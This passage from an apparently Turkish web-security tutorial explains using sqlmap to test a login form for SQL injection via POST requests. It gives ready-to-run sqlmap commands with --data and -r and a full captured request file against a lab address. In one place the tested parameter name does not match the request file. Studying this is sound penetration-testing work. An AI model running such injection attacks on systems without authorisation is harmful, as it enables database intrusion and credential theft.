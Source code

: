 
<p>Sqlmap kullanımı sırasında düşülen yanılgılardan biri, sqlmap ile sadece GET isteği yapılabildiğinin düşünülmesidir. Halbuki sqlmap, GET isteklerinin yanı sıra POST isteğiyle tarama yapmaya da elverişlidir. Bir login ya da arama formunda bulunan SQL Injection açıklarını bulmak ve bunları exploit edebilmek için&nbsp;<code>--data</code>&nbsp;parametresiyle POST isteği yapmak mümkündür.</p>



<p>Aşağıdaki gibi bir giriş panelinde SQL Injection aradığımızı veya bulduğumuzu düşünelim:</p>



<figure class="wp-block-image"><a href="https://www.netsparker.com.tr/blog/web-guvenligi/ileri-seviye-sqlmap-kullanimi/#"><img src="https://d4qkvw08lssf8.cloudfront.net/statics/img/drive/Ileri-Seviye-Sqlmap-Kullanimi-03.png" alt="Örnek Bir Login Sayfası" /></a></figure>



<p>Sqlmap’te test etmek için POST bilgisine ihtiyacımız var. Bu bilgiyi, herhangi bir proxy yazılımıyla araya girerek elde edebiliriz. Örnek saldırı şöyle olacaktır:</p>



<figure class="wp-block-table"><table><tbody><tr><td>1</td><td><code>sqlmap -u "<a href="http://192.168.1.37/index.php?action=login">http://192.168.1.37/index.php?action=login</a>" --data="loginname=admin&amp;loginpass=admin&amp;duration=mins30" -p "loginname" --dbms="MySQL"</code></td></tr></tbody></table></figure>



<p>Burada, SQL Injection aradığımız formun POST bilgisini, hangi parametrenin test edileceğini (<code>-p</code>) ve DBMS bilgisini (<code>--dbms</code>) girdik. POST bilgilerinin sqlmap’e yazılamayacak durumda olduğu bazı durumlarda aynı işlemi istek dosyası yükleme yöntemiyle yapmak da mümkündür. Örneğin şöyle bir POST istek dosyasıyla yapılan atakta kullanacağımız komut biraz değişecektir:</p>



<figure class="wp-block-table"><table><tbody><tr><td>12345678910111213141516171819202122232425</td><td><code>POST <a href="http://192.168.1.37/index.php">http://192.168.1.37/index.php</a> HTTP/1.1</code><code>Host: 192.168.1.37</code><code>Connection: keep-alive</code><code>Content-Length: 341</code><code>Cache-Control: max-age=0</code><code>Origin: <a href="http://192.168.1.37/">http://192.168.1.37</a></code><code>Upgrade-Insecure-Requests: 1</code><code>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36</code><code>Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHFlodLUdWprARroi</code><code>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8</code><code>Referer: <a href="http://192.168.1.37/index.php?action=login">http://192.168.1.37/index.php?action=login</a></code><code>Accept-Encoding: gzip, deflate</code><code>Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.6,en;q=0.4</code><code>Cookie: PHPSESSID=0htj53cii9juj28a2gui2qe2c0;</code><code>------WebKitFormBoundaryHFlodLUdWprARroi</code><code>Content-Disposition: form-data; name="name"</code><code>admin</code><code>------WebKitFormBoundaryHFlodLUdWprARroi</code><code>Content-Disposition: form-data; name="password"</code><code>admin</code><code>------WebKitFormBoundaryHFlodLUdWprARroi</code><code>Content-Disposition: form-data; name="duration"</code><code>mins30</code><code>------WebKitFormBoundaryHFlodLUdWprARroi--</code></td></tr></tbody></table></figure>



<p>Kullanacağımız komut:</p>



<figure class="wp-block-table"><table><tbody><tr><td>1</td><td><code>sqlmap -r istek.txt -p "loginname" --dbms="MySQL"</code></td></tr></tbody></table></figure>


